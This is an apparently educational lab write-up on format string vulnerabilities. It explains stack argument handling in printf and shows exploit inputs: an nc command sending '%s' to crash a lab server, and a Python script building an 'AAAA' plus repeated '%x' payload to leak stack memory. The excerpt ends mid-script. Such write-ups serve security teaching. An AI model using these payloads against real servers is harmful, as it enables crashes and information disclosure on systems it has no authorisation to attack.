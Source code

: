
When a program uses a format string, the function using the format string takes its values from the stack.

Take, for example, a program that uses the below format string:

```c
#include <stdio.h>

int main() {
  char name[] = "John Doe";
  char planet[] = "Earth";
  printf("My name is %s and I am from planet %s", name, planet);
}
```

When the stack is built, the optional arguments (name and planet) are placed right above the format string argument. Based on the number of format specifiers, the program tries to access the memory addresses of these optional arguments. Thus, if for any reason the format specifiers are more than the optional arguments provided, the program will try to read the memory address of an area it has no access to, leading to a segmentation fault and crashing the program.

To crash the program, we need to introduce format specifiers so the program will try to read the memory address of an area it has no access to, leading to a segmentation fault. In this case, one format specifier seems to be enough to crash the program.

```bash
echo %s | nc -w5 10.9.0.5 9090
```

![task-1-b](https://github.com/iukadike/blog/assets/58455326/f10426bc-b091-44b4-b10b-f1b6912b7e89)


We can tell that the format program has crashed because it did not print out "Returned properly" and a few smiley faces.


<br>

### Printing Out the Server Program’s Memory

The objective of this task is to get the server to print out some data from its memory.

#### Stack Data

When we use the "%x" format specifier, it instructs the program to access a memory location and print out the hex value of the contents in that memory location. For this task, we would need to build our input to the server such that when the values in memory are printed, we can tell the offset from the beginning of the stack.

Thus, our input will start with a value we know, i.e., AAAA = \x41\x41\x41\x41, and will be made up of an increasing number of "%x" until we are able to see the value \x41\x41\x41\x41 printed out.

```python
#!/usr/bin/python3
import sys

# Start input with a content we can easily recognize
content = ("AAAA").encode('latin-1')

# Append format specifiers
content += ("_%x" * 80).encode('latin-1')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
```